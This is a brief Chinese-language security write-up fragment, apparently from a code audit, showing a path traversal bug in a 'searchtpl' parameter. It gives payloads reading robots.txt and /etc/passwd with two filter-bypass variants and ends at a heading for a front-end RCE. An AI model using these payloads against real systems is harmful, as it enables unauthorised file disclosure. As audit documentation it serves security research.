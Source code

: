![find_bug_107](img/find_bug_107.png)

测试:

`?search=&searchtpl=..././..././..././robots.txt`

![build_bug1_120](img/build_bug1_120.png)

两种绕过写法:

`?search=&searchtpl=..././..././..././..././..././..././..././..././etc/passwd`

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`

![find_bug_108](img/find_bug_108.png)

发现可以在此进行漏洞利用。

##### 1.2 漏洞二 —— 前台 RCE
